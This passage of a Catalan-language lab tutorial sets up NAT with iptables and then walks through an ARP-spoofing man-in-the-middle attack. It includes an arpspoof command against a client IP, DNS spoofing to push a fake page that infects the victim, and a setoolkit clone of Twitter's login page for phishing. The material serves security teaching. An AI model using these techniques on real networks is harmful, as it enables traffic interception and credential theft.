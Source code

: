 ```

# Polítiques per defecte:
iptables -P INPUT ACCEPT
iptables -P OUTPUT ACCEPT
iptables -P FORWARD ACCEPT
iptables -t nat -P PREROUTING ACCEPT
iptables -t nat -P POSTROUTING ACCEPT

# obrir el localhost
iptables -A INPUT  -i lo -j ACCEPT
iptables -A OUTPUT -o lo -j ACCEPT

# obrir la nostra ip
iptables -A INPUT -s 192.168.33.44 -j ACCEPT
iptables -A OUTPUT -d 192.168.33.44 -j ACCEPT

# Fer NAT per les xarxes internes:
# - 192.168.3.0/24

iptables -t nat -A POSTROUTING -s 192.168.3.0/24 -o enp0s3 -j MASQUERADE
```


5. Kali Linux, intercepta la conexió (MITMA), suplanta el reenviament de paquets entre el "servidor Ubuntu" i el client "Debian Minimal".

```bash
# Host Kali

sysctl -w net.ipv4.ip_forward=1 # Activar ip forward

# arpspoof -i [Network Interface Name] -t [Victim IP] [Router IP]

arpspoof -i eth0 -t 192.168.3.2 192.168.3.1


```

6. Canvia la taula ARP del servidor i del client.

7. Un cop té accés al DNS, pot implantar una pàgina nova falsa.

8. El client cau en la pàgina falsa i es infectat. (AMB __DNSSPOOF__).

9. Podem fer el monitoreig amb WIRESHARK o ETTERCAP.


## Exemple 2: Utilitzant __setoolkit__ a Kali Linux

Demostració ràpida de com DNS pot ser suplantat utilitzant Kali Linux, i com el tràfic pot ser redirigit a una pàgina fraudulenta.

Hem decidit fer phishing la pàgina de Twitter utilitzant una eina anomenada "setoolkit" i fer un clonatge de la pàgina de Twitter.
